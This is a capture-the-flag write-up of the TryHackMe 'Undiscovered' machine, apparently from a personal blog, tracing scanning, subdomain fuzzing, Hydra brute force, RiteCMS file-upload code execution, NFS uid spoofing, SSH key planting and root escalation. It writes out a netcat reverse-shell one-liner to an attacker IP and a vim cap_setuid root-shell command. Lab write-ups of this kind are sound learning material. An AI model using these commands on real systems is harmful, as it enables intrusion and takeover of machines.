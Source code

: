 ```yaml
---
title: Undiscovered TryHackMe Writeup
tags: [writeup,rest,python,tryhackme,linux,api,suid]
style: border
color: success
description: ""
---
```



![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/1.jpeg)

## Scanning
We run **nmap** on all ports, with scripts and versions.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/2.png)

## Enumeration
We access the web service, find a website with what looks like a *"hint"*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/3.png)

We launch the **wfuzz** tool to list possible subdomains enabled on *vhost*.

We see that there is *only one with different number of lines*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/4.png)

We access the new web resource and find **RiteCMS** version *2.2.1* deployed.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/5.png)

We check again **wfuzz**, we see that it has identified another subdomain.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/6.png)

We list another subdomain with the same CMS, unlike the previous one, in this one we have visibility to the authentication form.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/7.png)

We brute force the authentication form with **Hydra**, we get the password in plain text.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/8.png)

## Exploitation

We searched for exploits for this version of the CMS, we found several and some scripts that automates, but I preferred to do it "by hand".

[RiteCMS 2.2.1 - Authenticated Remote Code Execution
](https://www.exploit-db.com/exploits/48636)

We create a malicious file called *"m3.php"*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/9.png)

Enter the credentials obtained and upload the file *m3.php*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/10.png)

We access the file and check that we can execute remote code.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/11.png)

#### Reverse shell

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.30.149 443 >/tmp/f
```
We encode the payload and execute it from burp.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/12.png)

#### Remote access to the machine:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/13.png)

Once inside, we launch the dirsearch tool and we see that we could mount and write in the folder of the user "*william*".

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/14.png)

We tried to mount it, but we do not have permission to view its contents.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/16.png)

But it is easy to take advantage of this vulnerability, just create a local user with the same *uid (3003)* and now you can access your folder and read the *user.txt flag*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/17.png)

We checked the folder and found two interesting files "*admin.sh*" and "*script*". I try to delete the file and it is possible to replace it, thinking that maybe they can be combined or that there is some crontab running as another user, I try to add a line to get a reverse shell (but without success :().

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/18.png)

We check with **strings** the content of the "*script*" binary and we see that it executes a "**cat**" inside the user's home folder.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/19.png)

Taking advantage of the fact that we have write permissions in the nfs, we insert our public key in the "*authorized_keys*" file of the user "*william*" and we access by **SSH**.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/20.png)

We make some tests with the file and we see that we can indeed impersonate the user "*leonard*" to be able to read any file in his folder, so we try to read his private key and we see that we have been lucky.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/21.png)

We access by **SSH** and we see that we have access as "*leonard*".

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/22.png)

## Privilege Escalation
We read the file "*.viminfo*", we see a series of commands that already sounds us of the use of privilege escalation by means of **vim**, this already makes us suspect which is the way to the privilege escalation.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/23.png)

As we can't run sudo because we don't know the user's password, we see if we can access the **vim** binary through its capabilities, we see that we have "*cap_setuid+ep*", so we can abuse it and become root.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/24.png)

#### Command execute
```bash
/usr/bin/vim.basic  -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
We run the command, become root and read the flag from root.txt

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/25.png)




